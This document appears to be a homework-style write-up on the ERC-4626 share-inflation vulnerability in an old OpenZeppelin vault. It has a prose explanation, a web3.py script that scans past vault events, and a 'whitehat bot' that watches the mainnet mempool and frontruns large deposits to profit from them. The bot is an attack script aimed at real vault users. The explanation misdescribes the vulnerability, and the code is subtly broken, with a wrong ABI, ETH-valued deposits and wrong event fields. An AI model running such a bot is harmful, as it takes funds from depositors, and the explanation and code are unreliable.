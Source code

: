 # a) Vulnerability Description and Payoffs for an Attacker
The vulnerability in the old OpenZeppelin implementation of ERC-4626 revolves around the deposit mechanism and how it interacts with the asset's value within the vault. The vulnerability allows an attacker to perform frontrunning attacks by exploiting the predictable behavior of the vault during deposit transactions. Here’s a possible scenario:
- Predictable Deposit Behavior: When a user deposits assets into the ERC-4626 vault, the vault mints shares to the user based on the value of the assets at the moment of deposit.
- Frontrunning Opportunity: If an attacker observes that a large deposit is about to be made (e.g., from a mempool transaction), the attacker can frontrun this deposit by depositing a small amount of assets first.
- Share Inflation: The vault's logic might be such that it mints shares based on the current asset value before the large deposit dilutes the share value. After the large deposit, the attacker's shares represent a disproportionately larger amount of the vault’s assets.
- Withdrawing for Profit: After the large deposit has been processed, the attacker can immediately withdraw their shares, which now represent a larger portion of the vault’s assets, effectively stealing value from the vault.

Payoffs for an Attacker:
- The attacker can potentially extract a large portion of the vault’s assets by manipulating the timing of deposits and withdrawals.
- If unnoticed, this can drain significant value from the vault over time, leading to substantial losses for the vault’s users.

# b) Code to Check if the Vulnerability Has Occurred in the Past
```python
from web3 import Web3
from datetime import datetime


web3 = Web3(Web3.HTTPProvider("https://mainnet.infura.io/v3/YOUR_INFURA_PROJECT_ID"))

# Define the ERC-4626 vault contract address and ABI, note that here is example abi and address
vault_address = "VaultContractAddress"
vault_abi = [
    {
        "constant": True,
        "inputs": [],
        "name": "totalAssets",
        "outputs": [{"name": "", "type": "uint256"}],
        "type": "function"
    },
    {
        "constant": True,
        "inputs": [],
        "name": "totalSupply",
        "outputs": [{"name": "", "type": "uint256"}],
        "type": "function"
    },
]


vault_contract = web3.eth.contract(address=vault_address, abi=vault_abi)

# Helper function to get past events (e.g., deposits and withdrawals)
def get_past_events(event_name, from_block, to_block):
    event_filter = vault_contract.events[event_name].createFilter(fromBlock=from_block, toBlock=to_block)
    return event_filter.get_all_entries()

# Analyze past transactions for evidence of the vulnerability
def analyze_vulnerability(from_block, to_block):
    deposit_events = get_past_events("Deposit", from_block, to_block)
    withdrawal_events = get_past_events("Withdraw", from_block, to_block)
    
    for i in range(1, len(deposit_events)):
        previous_deposit = deposit_events[i-1]
        current_deposit = deposit_events[i]
        
        # NOTE: If the current deposit is significantly larger, check if the previous depositor withdrew shortly after
        if current_deposit['args']['amount'] > previous_deposit['args']['amount'] * 10:
            # NOTE: Check if the previous depositor withdrew shortly after the large deposit
            for withdrawal in withdrawal_events:
                if (withdrawal['args']['account'] == previous_deposit['args']['account'] and
                    withdrawal['blockNumber'] > current_deposit['blockNumber']):
                    
                    print(f"Potential frontrunning detected: Account {withdrawal['args']['account']} "
                          f"deposited {previous_deposit['args']['amount']} and withdrew shortly after "
                          f"a large deposit of {current_deposit['args']['amount']} in block {current_deposit['blockNumber']}.")


analyze_vulnerability(from_block=0, to_block="latest")
```

# c) Code for the Whitehat Bot to Exploit the Vulnerability
```python
import time
from web3 import Web3

web3 = Web3(Web3.HTTPProvider("https://mainnet.infura.io/v3/YOUR_INFURA_PROJECT_ID"))


private_key = "YOUR_PRIVATE_KEY"
account = web3.eth.account.privateKeyToAccount(private_key)
vault_address = "0xYourVaultContractAddress"

# Define the ERC-4626 vault contract address and ABI (simplified for illustration)
vault_abi = [
    {
        "constant": True,
        "inputs": [],
        "name": "deposit",
        "outputs": [{"name": "shares", "type": "uint256"}],
        "type": "function"
    },
    {
        "constant": True,
        "inputs": [{"name": "shares", "type": "uint256"}],
        "name": "withdraw",
        "outputs": [{"name": "assets", "type": "uint256"}],
        "type": "function"
    },
]


vault_contract = web3.eth.contract(address=vault_address, abi=vault_abi)

# Helper function to send a transaction
def send_transaction(tx):
    signed_tx = web3.eth.account.sign_transaction(tx, private_key)
    tx_hash = web3.eth.send_raw_transaction(signed_tx.rawTransaction)
    return web3.toHex(tx_hash)

# Bot logic to frontrun a large deposit
def frontrun_large_deposit(min_deposit_value):
    while True:
        pending_txs = web3.eth.getBlock('pending', full_transactions=True).transactions
        
        for tx in pending_txs:
            # NOTE: Check if the transaction is a deposit to the vault
            if tx.to == vault_address and tx.value > min_deposit_value:
                print(f"Detected a large deposit: {web3.fromWei(tx.value, 'ether')} ETH in transaction {tx.hash.hex()}")
                
                # NOTE: Frontrun with a small deposit
                deposit_tx = vault_contract.functions.deposit().buildTransaction({
                    'from': account.address,
                    'value': web3.toWei(1, 'ether'),  # Example small deposit
                    'gas': 2000000,
                    'nonce': web3.eth.getTransactionCount(account.address),
                    'gasPrice': web3.eth.gas_price
                })
                
                tx_hash = send_transaction(deposit_tx)
                print(f"Sent frontrunning deposit transaction {tx_hash}")
                
                # Wait for the large deposit to confirm, then withdraw
                time.sleep(10)
                
                withdraw_tx = vault_contract.functions.withdraw(web3.toWei(1, 'ether')).buildTransaction({
                    'from': account.address,
                    'gas': 2000000,
                    'nonce': web3.eth.getTransactionCount(account.address),
                    'gasPrice': web3.eth.gas_price
                })
                
                tx_hash = send_transaction(withdraw_tx)
                print(f"Withdrew funds in transaction {tx_hash}")
        
        time.sleep(5)


frontrun_large_deposit(min_deposit_value=web3.toWei(100, 'ether'))
```
